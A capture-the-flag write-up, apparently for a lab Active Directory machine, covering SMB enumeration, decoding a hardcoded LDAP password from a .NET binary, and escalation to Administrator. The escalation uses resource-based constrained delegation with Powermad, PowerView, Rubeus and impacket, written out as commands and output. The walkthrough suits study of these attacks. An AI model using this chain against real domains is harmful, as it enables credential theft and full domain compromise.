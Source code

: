 # Nmap findings
```table
ORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

```

After enumeration, found smb has no logon:
`smbclient -L 10.10.11.174`

```text

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.174 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

Downloaded file from smb share called `support-tools`

`UserInfo.exe.zip`
After extracting we need Windows in order to peek into the binary

```C#
internal class Protected
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(Protected.enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
			}
			return Encoding.Default.GetString(array2);
		}

		// Token: 0x04000005 RID: 5
		private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

		// Token: 0x04000006 RID: 6
		private static byte[] key = Encoding.ASCII.GetBytes("armando");
	}
}

// path, username, password
this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
```

We might have an LDAP username + pw

Username: `support\\ldap`
Decoded password:  `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

```bash
ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' 
```

This leads us to the following password:
```
user: support
pass: Ironside47pleasure40Watchful
```

To connect and get user flag:
```bash
evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful
```

Privesc: (we need the following)
```
-a----         9/20/2022   3:52 AM         135586 Powermad.ps1
-a----         9/20/2022   3:53 AM         770279 PowerView.ps1
-a----         9/20/2022   3:53 AM         441344 Rubeus.exe
```

import two modues by:
```powershell
import-module .\Powermad.ps1
import-module .\PowerView.ps1
```

Create fake computer in Domain:
```powershell
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

Get-DomainComputer fake01
```

Returns object-id: `S-1-5-21-1677581083-3380853377-188903654-5103`

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5103)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)


Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

```powershell
.\Rubeus.exe hash /password:123456 /user:fake01 /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Calculate Password Hash(es)

[*] Input password             : 123456
[*] Input username             : fake01
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBfake01
[*]       rc4_hmac             : 32ED87BDB5FDC5E9CBA88547376818D4
[*]       aes128_cts_hmac_sha1 : 3E1A2E5F7675F6BA5C21FDEABFD92B93
[*]       aes256_cts_hmac_sha1 : 37CD1332C1F8DC0C4AA0B738CC971DEBD8D66AED50AF2AF2EC63B7459344B834
[*]       des_cbc_md5          : E0795B98AEA1A16B


.\Rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /ptt
```

We get a b64 ticket for the user `Administrator` 😎

```bash
impacket-getST support.htb/fake01:123456 -dc-ip 10.10.11.174 -impersonate administrator -spn www/dc.support.htb
export KRB5CCNAME=administrator.ccache
impacket-wmiexec support.htb/Administrator@dc.support.htb -no-pass -k
```

